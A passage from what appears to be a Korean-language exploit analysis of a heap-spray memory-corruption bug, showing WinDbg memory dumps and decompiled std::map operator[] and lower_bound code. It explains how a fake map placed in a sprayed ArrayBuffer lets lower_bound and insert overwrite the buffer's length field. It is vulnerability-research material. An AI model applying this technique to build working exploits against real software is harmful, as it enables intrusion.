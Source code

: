 ```
2909d4e8  5e5e5d5d 60605f5f 00006161 00000000
```

 `std::map<unsigned short,CAgg>::operator[]`호출에 사용되는 `this->map`은 힙 스프레이를 통해 0x20000048에 할당된 아래의 `ArrayBuffer`를 가리키고 있고  0x20000048에 0x10 바이트의 헤더가 위치해있으며 0x20000058부터 데이터가 위치하고 이는 공격자에 의해 사전에 구성되었습니다.

```
0:000> dd 0x20000048
20000048  00000000 0000ffe8 17c7bbe0 00000000
20000058  20000060 41424345 41424344 20000044 // 20000058 : this->map
20000068  33333333 33333333 33333333 33333333
20000078  33333333 33333333 00000000 00000000
```

위 데이터 중 `ArrayBuffer`의 길이를 나타내는 부분은 오프셋 + 0x4인 0x2000004c로 `std::map<unsigned short,CAgg>::operator[]`에서 0x20000058에 구성된 fake `map`을 사용하여 호출되는 `lower_bound`와 `insert`에 의해 변조됩니다.

### std::map<unsigned short,CAgg>::operator[]

```c
int __thiscall std::map<unsigned short,CAgg>::operator[](TREE_VAL *this, int a2, unsigned __int16 *pSomeID)
{
	...
	int v8[3]
  ...
  std::map<unsigned short,CAgg>::lower_bound(this, v8, pSomeID);
  v4 = v9;
  if ( sub_208E95F2(v9, pSomeID) )
  {
    ...
  }
  else
  {
    if ( this->_Mysize == 0x38E38E3 )
      Throw_tree_length_error();
    ...
    *(_DWORD *)a2 = std::map<unsigned short,CAgg>::insert(this, v8[0], (int)v8[1], Parent);
    ...
  }
  return result;
}
```

먼저 호출되는 `lower_bound`에서 아래의 코드가 실행되어 두 번째 인자(`a2`)로 전달한 `v8`에 데이터를 씁니다.

### std::map<unsigned short,CAgg>::lower_bound

```c
_DWORD *__thiscall std::map<unsigned short,CAgg>::lower_bound(int this, int *a2, int *a3)
{
  int Myhead; // eax
  int Parent; // ecx
  unsigned __int16 v5; // si
  int v6; // eax
                                                // TREE_VAL *this
  Myhead = *(_DWORD *)this;                     // this->_Myhead;
  //    mov     eax,dword ptr [ecx]  ds:002b:20000058=20000060
  Parent = *(_DWORD *)(*(_DWORD *)this + 4);    // this->_Myhead->_Parent
  //    mov     ecx,dword ptr [eax+4] ds:002b:20000064=20000044
  a2[1] = 0;
  *a2 = Parent;
  a2[2] = Myhead;
  ...
  return a2;                                    
}
```